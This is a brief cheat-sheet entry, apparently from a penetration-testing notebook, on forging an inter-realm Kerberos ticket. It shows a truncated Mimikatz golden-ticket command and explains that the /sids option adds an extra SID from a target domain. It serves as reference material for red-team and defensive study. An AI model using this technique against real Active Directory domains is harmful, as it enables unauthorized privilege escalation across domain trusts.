 # Inter-Realm TGT

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /sid:S-xxx ...
```
{% endcode %}

Essentially the same as the Mimikatz command to create a Golden Ticket, with the additional `/sids` option to specify the extra SID of the target domain.
